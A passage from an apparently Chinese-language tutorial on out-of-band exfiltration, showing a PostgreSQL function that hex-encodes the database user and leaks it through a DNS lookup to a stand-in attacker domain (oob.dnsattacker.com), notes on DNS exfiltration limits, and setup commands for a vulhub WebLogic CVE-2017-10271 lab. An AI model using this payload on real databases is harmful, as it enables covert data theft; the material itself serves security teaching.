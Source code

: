 ### 2. 利用/渗出

**受害者**

```sql
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
    SELECT INTO query_result (SELECT encode(convert_to(concat(user,'     '), 'UTF8'),'hex'));
    exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.oob.dnsattacker.com\\\\foobar.txt\'';
    EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630425_5b971e9941425.png!small)](https://image.3001.net/images/20180911/1536630425_5b971e9941425.png)

## 十、使用DNS泄露数据的限制

> 域名最多可包含127个子域。
>
> 每个子域最多只能包含63个字符长度。
>
> 完整域名的最大长度为253个字符。
>
> DNS记录缓存为每个URL请求都添加了一个唯一值。
>
> DNS是明文通道，因此通过DNS提取的任何数据都将采用明文格式，并可供中间节点和DNS服务器缓存使用。因此，建议不要通过DNS泄露一些较为敏感的数据。

# 0x06 实战

## 1.CVE-2017-10271

环境： <https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271>

```
搭建命令
自动化编译环境
docker-compose build

启动整个环境
docker-compose up -d

删除整个环境
docker-compose down -v
```
